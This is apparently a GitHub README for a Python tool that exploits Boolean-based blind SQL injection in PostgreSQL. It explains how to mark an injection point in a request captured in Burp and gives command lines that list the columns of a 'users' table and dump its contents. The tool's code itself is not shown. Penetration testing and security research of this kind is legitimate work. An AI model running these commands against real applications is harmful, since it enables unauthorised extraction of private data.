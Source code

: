 # sqlinjector
A tool to exploit Boolean-based Blind SQL injections in PostgreSQL.
It allows to extract columns of one/several tables and dump the content of them.

Steps to make it work
---------------------
1. Once you have the vulnerable request in Burp, right click on it and select Copy to file.
2. Open the .sql file and insert the mark [INJ] in the injection point
```json
{"additionalInfo":{"baseName":"house","houseType":"16[INJ]"},"paginationInfo":{"pageIndex":1,"recordsPerPage":"10","sortField":"baseName"}}
```

Example:
--------
This will perform the following query: SELECT (user_table_cols) FROM dummy_db.users WHERE user_modified='John'
```bash
python sqli.py -D dummy_db -T users -FF user_table_cols.txt -W "user_modified='John'" -R request.sql --dump
```

This will show the columns tables of the "users" table of the current database
```bash
python sqli.py -T users -R request.sql --columns
```

This will show the columns tables of the tables specified in the file, of the current database
```bash
python sqli.py -TF table_names.txt -R request.sql --columns
```

Pending:
--------
- Dump database names
- Dump table names
- Extend funcitionality to Time-based SQLi
- Add MySQL support
- Add multithreading
